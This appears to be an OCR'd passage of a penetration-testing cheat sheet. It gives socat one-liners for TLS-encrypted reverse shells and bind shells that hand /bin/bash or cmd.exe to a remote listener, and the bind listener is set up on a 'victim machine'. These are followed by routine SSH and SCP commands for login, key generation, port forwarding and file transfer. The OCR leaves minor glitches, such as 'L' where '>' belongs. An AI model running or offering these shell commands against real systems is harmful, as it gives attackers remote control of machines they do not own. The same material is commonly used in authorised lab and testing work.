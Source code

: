 ```
```
Connect back to listener
```
socat OPENSSL:10.0.0.1:4443,verify=0 EXEC:/bin/bash [LINUX]
socat OPENSSL:10.0.0.1:4443,verify=0 EXEC:'cmd.exe',pipes [WINDOWS]
```
#### Set up an encrypted bind shell
Generate a certificate
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt
```
Merge the 2 created files into pem file
```
cat bind.key bind.crt L bind.pem
```
Set up listener on victim machine
```
socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes [WINDOWS]
socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash [LINUX]
```
Connect back to listener
```
socat OPENSSL:10.0.0.1:4444,verify=0
socat - OPENSSL:10.0.0.130:4443,verify=0
```

### SSH
Connect to SSH service
```
ssh admin@10.0.0.1
ssh -p 4444 [username@10.0.0.1
ssh -i [key file] admin@10.0.0.1
ssh anonymous@10.0.0.1 -t 'bash --noprofile' -enables pseudo-tty allocation
```
Generate a ssh private key
```
ssh-keygen -f id_rsa
```
Port forwarding with ssh
```
ssh -L 4444:10.0.0.1:4444 [user]@10.0.0.1
```

### SCP
Transfer remote file to local machine
```
scp admin@10.0.0.1:<file_path> .
scp -P 4444 admin@10.0.0.1:<file_path> .
```
Transfer local file to remote machine
```
scp <file_name> admin@10.0.0.1:[path][file name to save]
scp -P 4444 <file_name> admin@10.0.0.1:[path][file name to save]
```
